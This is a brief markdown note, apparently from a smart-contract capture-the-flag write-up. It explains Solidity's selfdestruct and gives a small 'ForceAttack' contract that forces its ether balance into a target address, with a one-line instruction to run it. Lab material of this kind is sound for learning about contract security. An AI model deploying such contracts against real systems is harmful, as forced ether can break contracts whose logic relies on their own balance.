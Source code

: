 # Self Destruct

When the selfdestruct() function is called, it will send the remaining balance inside of it to any address it points to.

Example selfdestruct contract:

```solidity
pragma solidity ^0.6.0;

contract ForceAttack {
	constructor() public payable{
	
	}
	
	function attack(address _contractAddr) public {
		selfdestruct(_contractAddr);
	
	}


}
```

![selfdestruct](./screenshots/selfdestruct.png)

Run attack function with address you want money sent to.
